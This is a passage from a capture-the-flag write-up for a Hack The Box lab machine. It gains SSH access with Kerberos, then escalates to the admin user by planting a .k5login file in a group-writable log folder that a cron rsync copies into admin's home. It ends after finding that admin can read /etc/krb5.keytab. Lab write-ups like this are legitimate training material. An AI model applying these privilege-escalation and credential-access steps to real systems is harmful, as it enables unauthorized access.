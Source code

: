 Using `kinit` to obtain a Kerberos ticket for the user _j.nakazawa_:
```
kinit j.nakazawa
```

After sending the password, a Kerberos ticket will be granted and SSH can be used to access the box:
```
ssh j.nakazawa@10.10.10.224
```

> NOTE: In the _/etc/hosts_ file, the hostname of _srv01.realcorp.htb_ has to be specified as the first entry to make this work:
```
10.10.10.224    srv01.realcorp.htb realcorp.htb
```

## Privilege Escalation

When enumerating the box, a cronjob can be found that runs every minute as the user _admin_:
```
cat /etc/crontab

* * * * * admin /usr/local/bin/log_backup.sh
```

This script uses `rsync` to move the folder _/var/log/squid/_ into _/home/admin/_.
The group _squid_ has permissions to write into the folder and this user is a member of that group as seen with the `groups` command:
```
ls -l /var/log/ | grep squid

drwx-wx---. 2 admin  squid      41 Dec 24  2020 squid
```

This means a [.k5login](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_config/k5login.html) file can be created that allows this user to login in as _admin_:
```
echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
```

After a minute, the file _.k5login_ file will be synchronized into _/home/admin/_ and it is possible to SSH into the box as this user:
```
ssh admin@10.10.10.224
```

### Privilege Escalation to root

Checking which files the user and group _admin_ has access to:
```
find / -user admin -ls 2>/dev/null | grep -v '/home\|/sys\|/proc\|/run'

find / -group admin -ls 2>/dev/null | grep -v '/home\|/sys\|/proc\|/run'
```

The group _admin_ has permissions to read _/etc/krb5.keytab_:
```
-rw-r-----. 1 root admin 1403 Dec 19  2020 /etc/krb5.keytab
```
